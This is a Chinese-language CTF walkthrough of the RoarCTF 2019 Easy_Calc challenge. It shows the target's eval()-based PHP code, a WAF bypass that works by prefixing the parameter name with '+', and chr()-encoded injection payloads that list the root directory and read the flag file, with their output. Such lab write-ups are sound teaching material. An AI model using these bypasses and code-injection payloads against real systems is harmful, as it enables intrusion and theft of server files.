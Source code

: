 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - PHP
  - WAF
  - 字符串解析
---
```


# \[RoarCTF 2019\] Easy_Calc

## 前置工作

进入靶机网页，随便测试一下，就发现一般的手段行不通了

![](https://p.sda1.dev/13/06513b02569849d88f42b0a62277f0b6/image.png)

打开 F12 看源码，发现他已经使用了 WAF（但是这个 WAF 策略我们是无从得知的），以及下面有一个 Ajax 使用 GET 请求将参数 `num` 给到了 `calc.php`

![](https://p.sda1.dev/13/2172087003d37976776f72fdb21a1fba/image.png)

我们进入 `/calc.php`，发现下面的源代码，仔细阅读下就能发现我们输入数据的黑名单，但现在首要目的是先绕过 WAF 的限制，使得我们传入的 `num` 参数能进入这个 PHP 代码中被执行

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

## WAF 绕过

我从 [FreeBuf](https://www.freebuf.com/articles/web/213359.html) 上找来了两张图片，可以说明 PHP 对传入参数的处理是怎么样的

![](https://p.sda1.dev/13/05736632a670e277acba2c1d82e15c95/image.png)

![](https://p.sda1.dev/13/53ed3879e34ebb48992e0d9cb0d1209b/image.png)

通过以上解释，我们就能尝试着绕过 WAF 的判断了，我们可以把传入的参数 `num` 改成 `+num`，因为这个 `+` 到 PHP 解析的时候就会被省略掉，到头来还是 `num`，但是对于 WAF 就不一样了，他只会觉得我们没有给 WAF 提供 `num` 参数，于是就很轻松地绕过了 WAF 的判断，现在，我们已经可以向 `num` 传入字符了

## 黑名单绕过

查看 `$blacklist` 数组，发现想绕过的话，一般的方法都用不了，我们通常都用 `system("ls /")` 来查看当前目录下的文件，但是使用 `system("ls /")` 就会直接触发黑名单，因为又有空格，又有引号，那么我们只能使用另外的方法了

### 扫描目录

直接说答案 **`+num=var_dump(scandir(chr(47)))`**，`chr(47)` 即 `/`，`scandir()` 就是扫描当前目录，`var_dump()` 就是调试模式输出内容（与 `echo` 单纯的打印字符串不同，`var_dump()` 可以打印变量信息），将 `+num=var_dump(scandir(chr(47)))` 传入后可看到以下内容，发现有一个 `f1agg` 文件

```
array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }
```

### 阅读文件

阅读文件的时候也需要使用特殊的方法，毕竟我们对引号和空格没有使用权，那么我们就使用老方法，先说答案 **`+num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))`**，其中 `chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)` = `/f1agg`，`file_get_contents()` 就是从某个文件中阅读内容并输出，最后即可得出 Flag 为 `flag{9b928004-5776-4b60-bbb9-d32152c62db7}`